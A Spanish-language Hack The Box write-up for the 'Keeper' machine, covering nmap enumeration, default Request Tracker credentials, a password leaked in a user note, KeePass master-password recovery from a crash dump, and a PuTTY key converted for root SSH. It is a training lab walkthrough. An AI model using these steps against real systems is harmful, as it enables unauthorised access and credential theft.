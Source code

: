 ```yaml
---
title: Keeper HTB Writeup
published: 2023-04-10
description: 'Explotamos una Web con Request Tracker 4.4.4 para conseguir credenciales, Luego crackeamos un archivo .kdbx.'
image: 'ban.png'
tags: [Easy, Linux]
category: 'HackTheBox'
draft: false 
---
```


Keeper es una máquina Easy del desafío Hack The Box. La enumeración comienza con un escaneo Nmap que revela servicios SSH y HTTP. El servicio HTTP ejecuta Request Tracker 4.4.4, conocido por una vulnerabilidad de divulgación de información a través de la enumeración de usuarios. Se encuentran credenciales por defecto para ‘root’. Al acceder al panel de administración se revela la contraseña de un usuario, «Welcome2023!».

El uso de SSH con las credenciales encontradas permite el acceso a un sistema Ubuntu. Se descubre una base de datos Keepass y un volcado de programa, lo que permite recuperar la contraseña maestra «rødgrød med fløde» (postre danés), que da acceso a la base de datos Keepass. Se encuentra un archivo Putty PPK y se convierte en una clave RSA, lo que permite el acceso SSH como «root». Esta progresión da como resultado la finalización con éxito del desafío.

# Initial Recon

Verificamos nuestra conexión con la máquina, en caso de que no responda, Compruebe su archivo VPN:

```bash
❯ ping -c 1 10.10.11.227                                            
PING 10.10.11.227 (10.10.11.227) 56(84) bytes of data.
64 bytes from 10.10.11.227: icmp_seq=1 ttl=63 time=140 ms

--- 10.10.11.227 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 140.045/140.045/140.045/0.000 ms
```

comenzamos nuestro escaneo con nmap:

```bash
> sudo nmap -sS --open -p- --min-rate 5000 -n -Pn -v 10.10.11.227 -oG nmapScan

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Realicemos un escaneo más profundo:

```bash
nmap -sVC -p22,80 10.10.11.227 -oN ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Port | Service | Product | Version |
|------|---------|---------|---------|
| 22   | ssh     | OpenSSH | 8.9p1   |
| 80   | HTTP    | nginx   | 1.18.0  |

Por ahora no intentamos nada a través de ssh ya que no tenemos credenciales válidas, Así que vamos a ver el sitio web.

# Web

![alt text](image.png)

## Default Credentials In Tracker

Al navegar a esta página nos encontramos con la siguiente página de inicio de sesión. Podemos ver que esta usando Request tracker Cuando busque en internet pude encontrar que las credenciales por defecto para la cuenta root es password Ingresando esta contraseña nos dio acceso a la aplicación web.

![alt text](image-1.png)

Al mirar a través de la aplicación podemos encontrar dos páginas interesantes. La primera es la página de tickets abiertos recientemente, que revela un problema que uno de los usuarios está teniendo. Dicen que tienen un crash dump en su directorio home para ayudar a los administradores a depurar sus problemas con keepass. Esta es información muy interesante que nos da un objetivo a seguir una vez que tengamos acceso al sistema.

![alt text](image-2.png)

En segundo lugar al revisar el panel de usuarios de la aplicación pudimos ver que el mismo usuario que notamos antes en el ticket tenía una nota en su perfil. Esta nota mencionaba su contraseña de inicio por defecto. ¡Usando esta contraseña nos dio acceso a la máquina con ssh usando la contraseña Welcome2023!

# SSH Credentials

```bash
ssh lnorgaard@keeper.htb
```

# Privilege Escalation

La carpeta de inicio contiene un archivo ZIP RT30000.zip. Este debe ser el archivo correspondiente al ticket que hemos visto antes. Transfiéralo a la máquina atacante y descomprímalo.

```bash
> unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp
 extracting: passcodes.kdbx
```

Obtenemos el crash dump de KeePass y un archivo de base de datos de KeePass.
Extracting the KeePass master password

Tal vez sea posible extraer la contraseña maestra del archivo de volcado. He intentado utilizar este script de Python para la tarea: Keepass Dump MasterKey

```bash
> python3 poc.py -d /opt/ctf/htb/keeper/KeePassDumpFull.dmp
2023-08-12 21:35:47,517 [.] [main] Opened /opt/ctf/htb/keeper/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
```

Hay algunos problemas con los caracteres especiales. Una búsqueda rápida en Google de dgrd med flde revela el nombre del plato danés: Rødgrød med fløde.

Utilizaré la utilidad kpcli para interactuar con el archivo de base de datos KeePass que hemos saqueado.

```bash
> kpcli

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx
Provide the master password: ************************* #Rødgrød med fløde
Error opening file: Couldn't load the file passcodes.kdbx

Error(s) from File::KeePass:
The database key appears invalid or else the database is corrupt.

kpcli:/> open passcodes.kdbx
Provide the master password: ************************* #rødgrød med fløde
kpcli:/> ls
=== Groups ===
passcodes/
```

¡Éxito! La contraseña maestra de la base de datos KeePass es rødgrød med fløde. Vamos a buscar algunas credenciales.

## SSH Private Key for root

```bash
kpcli:/> ls *
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/> ls */*
/passcodes/eMail:

/passcodes/General:

/passcodes/Homebanking:

/passcodes/Internet:

/passcodes/Network:
=== Entries ===
0. keeper.htb (Ticketing Server)
1. Ticketing System

/passcodes/Recycle Bin:
=== Entries ===
2. Sample Entry                                               keepass.info
3. Sample Entry #2                          keepass.info/help/kb/testform.

/passcodes/Windows:
```

```bash
kpcli:/> cd /passcodes/Network
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)
1. Ticketing System
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: <REDACTED>
  URL:
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       <REDACTED>
```

¡Parece que tenemos una clave privada SSH raíz para PuTTY! Convirtámosla al formato aceptable para OpenSSH con puttygen:

```bash
puttygen key.putty -O private-openssh -o id_rsa
```

Y utiliza la clave para SSH:

```bash
> ssh root@keeper.htb -i id_rsa
```

```bash
> id
uid=0(root) gid=0(root) groups=0(root)
```